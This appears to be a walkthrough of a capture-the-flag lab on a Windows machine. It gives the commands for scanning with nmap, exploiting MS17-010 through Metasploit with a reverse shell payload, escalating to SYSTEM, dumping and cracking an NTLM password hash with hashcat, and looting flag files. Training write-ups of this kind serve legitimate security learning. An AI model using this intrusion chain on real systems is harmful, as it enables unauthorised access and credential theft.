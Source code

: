 ![image](https://user-images.githubusercontent.com/66912443/186679481-0d9ba8eb-bdcb-4683-943a-79614aa60bb9.png)

____________________________________________________________________________________________________________________ 

## Recon

<details>
<summary> How many ports are open with a port number under 1000? </summary>
  <p></p>

____________________________________________________________________________________________________________________  
  
As we are specifying only ports under 1000 we use the following command:
  
``` nmap [ip] -p 0-1000 ```

As seen below, running this command exposes 3 open ports:
  
![image](https://user-images.githubusercontent.com/66912443/186659494-ca27127c-ef59-4279-8c78-4a66e22f1cd9.png)

____________________________________________________________________________________________________________________  
  
</details>

<details>
<summary> What is this machine vulnerable to? </summary>
<p></p>

____________________________________________________________________________________________________________________ 

The script "vuln" is a CVE detection script that helps discover vulnerabilities in the scanned network. It can be activated with the following command:
  
``` nmap [ip] --script vuln ```
  
As seen below it has identified the machine is vulnerable to "ms17-010"
  
![image](https://user-images.githubusercontent.com/66912443/186661668-94728fae-8558-4642-81a8-3cb717ee4798.png)

____________________________________________________________________________________________________________________  
</details>

## Gain Access

<details>
<summary> Find the exploitation code we will run against the machine. What is the full path of the code? </summary>
  <p></p>
  
____________________________________________________________________________________________________________________ 
  
Rapid7 is a great tool for finding vulnerabilities and their uses along with sometimes instructions on how to complete the exploit yourself. Using rapid7.com's Vulnerability and Exploit Database, this vulnerability can be seen in more detail:
  
``` https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/ ```
  
Talking about instructions on how to complete the exploit yourself, at the bottom of the page the first line of code identifies the exploitation code needed to run against the machine!
  
![image](https://user-images.githubusercontent.com/66912443/186663495-0312c1af-22e4-4549-bfbf-563dda2f2670.png)

____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Show options and set the one required value. What is the name of this value? </summary>
  <p></p>

____________________________________________________________________________________________________________________   
``` RHOSTS ``` is the one required value. This is because RHOSTS determines the ip address of the target.

____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> With that done, run the exploit! </summary>
 
____________________________________________________________________________________________________________________ 

Before running the exploit, make sure to run the following command as by default it will load meterpreter and a follow up question requires converting shell to meterpreter shell.
  
``` set payload windows/x64/shell/reverse_tcp ```
  
Then simply type 'run' and let metaspolit do its thing! If done correctly you will be presented with something similar to the following:
  
![image](https://user-images.githubusercontent.com/66912443/186665440-c9ede66d-7bc3-4245-b47e-a56ceec67727.png)

  
____________________________________________________________________________________________________________________ 

</details>

## Escalate

<details>
<summary> Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? </summary>
  
____________________________________________________________________________________________________________________

Thanks to a post by 'Binamra Pandey' I have learnt the command to convert a shell is as follows: 
   
``` post/multi/manage/shell_to_meterpreter ```
  
<p></p>
  
Source = https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646  
____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Select this (use MODULE_PATH). Show options, what option are we required to change? </summary>
  
____________________________________________________________________________________________________________________ 

``` SESSION ``` is the required option as we need to know which session (that has been backgrounded) to run this exploit on. In my example 'session 2' was backgrounded. 
  
To list all sessions use ``` sessions -l ```
  
![image](https://user-images.githubusercontent.com/66912443/186669104-9eca0c90-a0e7-453b-953b-3fc117fda793.png)


____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> Run! If this doesn't work, try completing the exploit from the previous task once more. </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  Running the exploit should lead you to see similar to this below. As seen in the text it says 'Meterpreter session 3 opened'. So the next step would be to navigate to it using the command:
<p></p>  
  
``` sessions 3 ```

  <p></p>  
  
![image](https://user-images.githubusercontent.com/66912443/186669699-49fc84fc-7b7a-49bf-b5e7-6d29bfba8a0b.png)
  
  ____________________________________________________________________________________________________________________ 

</details>

<details>
<summary> Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  Running 'getsytem':
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186670379-144fb6db-c4a8-48e7-8121-2c1bb294e465.png)
  
  Opening a dos shell and running whoami:
  
  ![image](https://user-images.githubusercontent.com/66912443/186670738-df061830-ee4b-4a00-a779-2d34e8402ddd.png)

____________________________________________________________________________________________________________________ 
  
</details>

<details>
<summary> List all of the processes running via the 'ps' command. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  As seen in the cropped screenshot below, powershell.exe as well as many others are running at 'NT AUTHORITY/SYSTEM'. For simplicities sake I will stick with powershell, process ID 3056.
  <p></p>
  
![image](https://user-images.githubusercontent.com/66912443/186671522-82c4c813-c4f0-492d-a3d6-346b435e3657.png)
____________________________________________________________________________________________________________________   

</details>

<details>
<summary> Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
This is as simple as the following command:
  
```migrate 3056 ```
  
This is useful as now we are running on a process that has system authority!
  
![image](https://user-images.githubusercontent.com/66912443/186671912-1726b9c4-7c78-41c4-934b-3772421e6a6b.png)

____________________________________________________________________________________________________________________   

</details>

## Cracking

<details>
<summary> Within our elevated meterpreter shell, run the command 'hashdump'. What is the name of the non-default user? </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  The name of the non-default user is <i> jon </i>
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186672534-d803dffa-6966-49a6-8fff-7cb3614836bf.png)

____________________________________________________________________________________________________________________   
</details>

<details>
<summary> Copy this password hash to a file and research how to crack it. What is the cracked password? </summary>

  ____________________________________________________________________________________________________________________ 
  
  <p></p>
  This is the hashdump we will be working with:
  <p></p>
  
``` Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: ```

Windows uses NTLM to authenticate a client on an Active-Directory domain. When it comes to cracking the passwords this is what we will need to select in hashcat. Looking at hashcat's hash mode table we know that NTLM uses hash mode 1000:
  
![image](https://user-images.githubusercontent.com/66912443/186678368-1512a206-2470-4e42-a1f9-22d083e375ae.png)

  
To make the hash easier to work with, I have first copied the hash and put it into a file called 'hash.txt' in the root directory.
  
![image](https://user-images.githubusercontent.com/66912443/186675515-4466972d-a3f0-401f-8c8f-e940ce9b1f96.png)

Next, we will use hashcat to crack the hashes, this includes the hash mode type talked about above:
  
``` hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt ```
  
After letting it run long enough you will have your cracked hash!
  
![image](https://user-images.githubusercontent.com/66912443/186678699-75c0b403-b9b2-477e-9c0f-f43e03e4925c.png)

____________________________________________________________________________________________________________________ 

</details>

## Find Flags!

<details>
<summary> Flag1? This flag can be found at the system root. </summary>

____________________________________________________________________________________________________________________ 
  <p></p>  
  
The first step was to change sessions back to the dos shell so i could manouver about the system again. Once I was back in the shell, I changed to the root directory 'C:/'.
  
![image](https://user-images.githubusercontent.com/66912443/186680032-ff6ea4db-ec57-41c0-ab8f-9b352e7960ef.png)

Here i printed the contents of the system root exposing 'flag1.txt'
  
![image](https://user-images.githubusercontent.com/66912443/186680449-8f29e773-0ffc-492a-89a2-0f8b24173a2e.png)

From here on I used the command 'more' to view the contents of the file. (I dont know why meterpreter died)
  
![image](https://user-images.githubusercontent.com/66912443/186680549-81dfd518-421f-4819-a779-bc1eabe6d035.png)

____________________________________________________________________________________________________________________ 
  
</details>

<details>
<summary> Flag2? This flag can be found at the location where passwords are stored within Windows. </summary>
  
  ____________________________________________________________________________________________________________________
  
  <p></p>
  
Windows passwords are stored at ``` C:\windows\system32\config\SAM ```.
  
  
Navigating to the \config\ directory led me to the flag2.txt file!
 
![image](https://user-images.githubusercontent.com/66912443/186682465-dca073d7-c605-4e51-ba68-b4c6cf5b615d.png)

____________________________________________________________________________________________________________________

</details>

<details>
<summary> Flag 3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. </summary>

This was found in the user Jon's \Documents\ directory.
  
![image](https://user-images.githubusercontent.com/66912443/186683718-22c28b88-1ae6-4aa4-a154-7fb205924a37.png)


</details>


